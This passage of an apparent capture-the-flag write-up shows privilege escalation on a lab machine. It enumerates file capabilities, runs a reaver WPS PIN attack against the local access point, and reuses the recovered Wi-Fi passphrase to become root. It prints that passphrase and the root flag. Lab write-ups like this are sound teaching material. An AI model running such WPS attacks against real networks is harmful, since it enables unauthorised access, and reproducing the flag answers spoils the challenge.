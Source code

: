- wlan0 was in Master mode (the device acting as the AP).

- mon0 (monitor mode) was present on the device.


**I also checked file capabilities:**
```bash
getcap -r / 2>/dev/null
```
![Checked file capabilities with getcap](/images/wifinetic/getcap.png)

# ... /usr/bin/reaver = cap_net_raw+ep

/usr/bin/reaver had cap_net_raw, meaning it could perform raw network operations needed for WPS attacks.

---

## ⚡ Privilege Escalation — WPS PIN attack (reaver)

**From iw / iwconfig output I identified the AP BSSID:**

"02:00:00:00:00:00"

I launched a WPS PIN attack from the device (using the local reaver binary) on the monitor interface:

```bash
reaver -i mon0 -b 02:00:00:00:00:00 -vv -c 1
```
![WPS PIN attack using reaver](/images/wifinetic/reaver.png)


**Reaver completed and returned the AP Wi-Fi passphrase:**

"WhatIsRealAnDWhAtIsNot51121!"

Using that passphrase I switched to root:

```bash
netadmin@wifinetic:~$ su root
Password: WhatIsRealAnDWhAtIsNot51121!
```
![Root access](/images/wifinetic/su_root.png)

**Root flag:**

```bash
root@wifinetic:/home/netadmin# cat /root/root.txt
```
![Root flag](/images/wifinetic/root_flag.png)

"94866ea86e569ab12e3c2d0f5893db19"

---

## 🏁 Flags
